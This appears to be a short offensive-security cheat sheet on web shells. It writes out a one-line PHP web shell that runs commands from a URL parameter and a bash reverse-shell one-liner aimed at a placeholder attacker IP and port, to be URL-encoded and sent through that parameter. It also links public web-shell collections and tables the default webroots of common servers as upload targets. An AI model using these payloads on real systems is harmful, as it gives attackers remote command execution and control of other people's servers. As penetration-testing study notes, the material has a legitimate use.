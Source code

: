 ```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Open reverse shell:
```shell
/bin/bash -c 'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/LISTENING_PORT 0>&1'
```
url encode it and send as cmd query or post parameter

Collection of webshells laudanum:
https://github.com/jbarcia/Web-Shells/tree/master/laudanum
`cp /usr/share/laudanum/... shellfile`

`/opt/useful/seclists/Web-Shells/

https://github.com/Arrexel/phpbash

Where to upload web shell:

| Web Server | Default Webroot        |
| ---------- | ---------------------- |
| `Apache`   | /var/www/html/         |
| `Nginx`    | /usr/local/nginx/html/ |
| `IIS`      | c:\inetpub\wwwroot\|   |
| `XAMPP`    | C:\xampp\htdocs\|      |
